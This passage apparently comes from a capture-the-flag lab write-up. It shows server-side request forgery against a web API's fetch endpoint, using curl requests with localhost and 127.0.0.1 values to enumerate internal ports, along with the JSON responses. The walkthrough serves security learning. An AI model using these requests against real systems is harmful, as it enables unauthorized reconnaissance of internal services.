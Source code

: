 This attack can be used to make HTTP requests from the box, but first an internal service has to be found to connect to.

### Searching for Services

The API can be used to enumerate ports on the IP 127.0.0.1:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=127.0.0.1' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:443",
  "note": "127.0.0.1"
}
```

When using the hostname _localhost_, it shows _null_ as the value in the _endpoint_ field:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=localhost' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "null",
  "note": "localhost"
}
```

But when trying the connection on a port that was found in the initial port scan, then it shows _127.0.0.1_ as the value in the _endpoint_ field:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=localhost:22' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:22",
  "note": "localhost"
}
```
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=localhost:80' -H 'accept: application/json' | jq
```
```json
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:80",
  "note": "localhost"
}
```
